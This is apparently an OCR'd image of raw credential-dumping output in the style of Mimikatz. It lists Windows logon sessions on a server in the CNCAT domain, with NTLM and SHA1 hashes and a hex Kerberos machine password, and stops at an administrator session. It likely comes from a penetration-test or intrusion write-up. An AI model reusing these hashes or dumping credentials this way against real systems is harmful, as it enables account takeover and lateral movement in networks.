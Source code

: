 ```
	credman :	

Authentication Id : 0 ; 86756 (00000000:000152e4)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2021/4/28 19:52:09
SID               : S-1-5-90-1
	msv :	
	 [00000003] Primary
	 * Username : 12SERVER-EX13$
	 * Domain   : CNCAT
	 * NTLM     : b3ccf603ac7bfb1050114eae4fae6f26
	 * SHA1     : 50fb8fbe36739bb5c02c710df19899bc7d740267
	tspkg :	
	wdigest :	
	 * Username : 12SERVER-EX13$
	 * Domain   : CNCAT
	 * Password : (null)
	kerberos :	
	 * Username : 12SERVER-EX13$
	 * Domain   : cncat.cc
	 * Password : 5e 3b 1b 7e 57 5b 89 33 d6 1f c9 77 99 f5 ba 3e f7 9c 61 c1 d1 12 b6 ab 9c 13 54 8c 64 b9 a6 1c ac 36 be c2 36 99 e9 00 4f 66 f8 69 5e 9f 1b 08 ed 18 ff f1 ee cc 3f 53 c2 ad d0 60 fb 8b bc 17 cc 06 d8 76 9f 91 67 01 e1 f1 46 ec 08 e2 0e c6 1e 4f eb f3 59 24 81 f2 bb b6 2a da 94 0d 7a 40 ac a9 b2 e9 c8 80 2e 78 8d bc 88 eb 37 db 1d fe 33 6b 0d bc 18 eb c5 04 2b 48 7a c8 47 d1 72 ae c0 66 23 6e 86 a3 ed e2 e3 96 0b 1d 1b 88 b6 ec e7 66 84 ea 68 f3 81 77 77 7c 7c 3c 83 a6 64 18 c0 57 dc 52 a9 d4 27 42 01 27 4e b3 90 68 c6 de ef 48 03 fa fa 44 64 e6 b3 a7 98 a1 a6 a0 7f 78 78 64 1e 2b 26 ef c3 1f b1 46 20 94 dc b5 c0 ad 7e 00 fc ff d4 f4 74 bc 90 82 92 25 d7 14 16 2e 3c c8 42 9b c2 51 64 00 94 5b 2b 74 e5 72 ab f9 
	ssp :	
	credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : 12SERVER-EX13$
Domain            : CNCAT
Logon Server      : (null)
Logon Time        : 2021/4/28 19:52:09
SID               : S-1-5-20
	msv :	
	 [00000003] Primary
	 * Username : 12SERVER-EX13$
	 * Domain   : CNCAT
	 * NTLM     : b3ccf603ac7bfb1050114eae4fae6f26
	 * SHA1     : 50fb8fbe36739bb5c02c710df19899bc7d740267
	tspkg :	
	wdigest :	
	 * Username : 12SERVER-EX13$
	 * Domain   : CNCAT
	 * Password : (null)
	kerberos :	
	 * Username : 12server-ex13$
	 * Domain   : CNCAT.CC
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 27313887 (00000000:01a0c6df)
Session           : NewCredentials from 0
User Name         : administrator
Domain            : CNCAT
```